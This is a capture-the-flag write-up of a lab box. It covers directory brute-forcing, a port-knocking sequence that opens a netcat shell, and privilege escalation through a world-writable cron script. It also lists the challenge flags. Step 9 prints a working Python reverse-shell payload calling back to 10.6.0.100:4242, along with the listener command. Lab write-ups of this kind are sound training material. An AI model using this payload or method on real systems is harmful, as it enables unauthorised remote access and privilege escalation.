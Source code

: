 # Knock knock knocking on shuttles door

## Categories

web, privesc, network

## Writeup

1. Given the website IP __10.6.0.2__ (after OpenVPN) and a slight recon to know that Apache/2.4.41 (Ubuntu) Server is running on port __80__, Directory search starting from `/` with OWASP DirBuster, that leads to the finding of the following site structure :
	
```
	/
	|- /icons
	|- /Home
		|- *.jpg
	|- /WhoIsThere
		|- /OpenSesame 
```

2. The hidden text file contains :

It would be a tcp syn to knock on the doors of air locks:
1337
68
61
78

thus, we can get the first flag here

3. After TCP SYN scan with Nmap, we can see that all 4 ports are closed at the moment, which may indicates that there is firewall or similar security protection that is blocking the connection
4. By using port knocking [technique](https://d00mfist.gitbooks.io/ctf/content/port_knocking.html) on the given ports in the same order, and have the Nmap scanning afterward  (ie. `knock 10.6.0.2 1337 68 61 78 && nmap 10.6.0.2`), we can see that there is a new open port on port __2021__
5. We can start the communication with port 2021 through [netcat](https://linux.die.net/man/1/nc), which leads us to a remote shell service that give us the access to the system (username:spaceotter)
6. After a simple shell upgrading and stabilization, we can simply use `ls -la` command to list the current directory, and `cat` command to output the content of flag.txt, that give us the 2nd flag

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

7. During the searching of privesc vulnerable component I found a suspicious bash file named `safetyCheck` in directory `/opt` , which is owned by `root` but anyone can modify it
8. Cron job is running on the target system, that has the following content in definition file `/etc/crontab` :

```text

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

```

In file `/etc/cron.d/cronJob` :

```text

SHELL=/bin/bash					# Use /bin/sh to run commands, no matter what /etc/passwd says
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=control					# Mail any output to `control`, no matter whose crontab this is

* * * * * control /opt/safetyCheck.sh		# Execute this script at every minute as user `control`

```

Command `crontab -e` does the editing of the current crontab using the editor specified by the VISUAL or EDITOR environment variables. After you exit from the editor the modified crontab will be installed automatically

Running process with command `ps -aux` :

```text
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0  27740 22912 ?        Ss   13:24   0:00 /usr/bin/pyth
root           8  0.0  0.0   2608   592 ?        S    13:24   0:00 /bin/sh /usr/
root           9  0.0  0.0   4044  2596 ?        S    13:24   0:00 cron -f		# stay in foreground mode
root          10  0.0  0.0   4884   704 ?        S    13:24   0:00 knockd -D -v
root          13  0.0  0.0   6668  5396 ?        S    13:24   0:00 /usr/sbin/apa
www-data      14  0.0  0.0 1932212 4028 ?        Sl   13:24   0:00 /usr/sbin/apa
www-data      15  0.0  0.0 1932212 4028 ?        Sl   13:24   0:00 /usr/sbin/apa
root          80  0.0  0.0   4884  3280 ?        Ss   13:25   0:00 knockd -D -v
root          81  0.0  0.0   2608   608 ?        S    13:25   0:00 sh -c socat t
root          82  0.0  0.0   6964  1844 ?        S    13:25   0:00 socat tcp-l:2
root          88  0.0  0.0   7044  2708 ?        S    13:25   0:00 socat tcp-l:2
root          89  0.0  0.0   4740  3092 pts/0    Ss   13:25   0:00 su - spaceott
spaceot+      90  0.0  0.0   2608   540 pts/0    S    13:25   0:00 -sh
spaceot+      93  0.0  0.0  12364  8820 pts/0    S+   13:25   0:00 python3 -c im
spaceot+      94  0.0  0.0   4468  3704 pts/1    Ss   13:25   0:00 /bin/bash
spaceot+     719  0.0  0.0   4468  3500 pts/1    S    14:20   0:00 /bin/bash
spaceot+     722  0.0  0.0   4468  3772 pts/1    S    14:20   0:00 bash -h
spaceot+     781  0.0  0.0   6116  3004 pts/1    R+   14:25   0:00 ps -aux
```

9. Since we are able to change the script file, thus we can create a new reverse shell through the payload

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.0.100",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

and create a reverse shell from local with `netcat`, ie. `nc -nlvp 4242`

10. After several minutes, you should be able to get the following reverse shell as user `control` and get your last flag !

## Flags

1. ctf{1337,68,61,78}
2. ctf{we_have_lift_off}
3. ctf{sudoToTheMoon} (help with CyptoCat's writeup)

## References

- [OWASP Dirbuster on Kali](https://tools.kali.org/web-applications/dirbuster)
- [TCP SYN scan with Nmap](https://nmap.org/book/synscan.html)
- [Nmap service listing](https://svn.nmap.org/!svn/bc/3320/nmap/nmap-services)
- [TryHackMe Advent of Cyber 2 Day 24 - Upgrade and stabilize your remote shell](https://tryhackme.com/room/adventofcyber2)
- [TryHackMe Linux Privilege Escalation](https://tryhackme.com/room/linuxprivesc)
- [About crontab(1) command](https://man.openbsd.org/crontab.1)
- [About crontab(5) cronJob configuration](https://man.openbsd.org/crontab.5)
- [Crontab syntax checker](https://crontab.guru)
- [Difference between crontab and cron.d](https://unix.stackexchange.com/questions/417323/what-is-the-difference-between-cron-d-as-in-etc-cron-d-and-crontab)
- [CyptoCat's Writeup on Youtube](https://www.youtube.com/watch?v=hY446_xs-DE&t=2590s) [Task 3 only]
- [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/2148c894524d89892db681e2a815c45939fdc61b/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
- [About netcat](https://en.wikipedia.org/wiki/Netcat)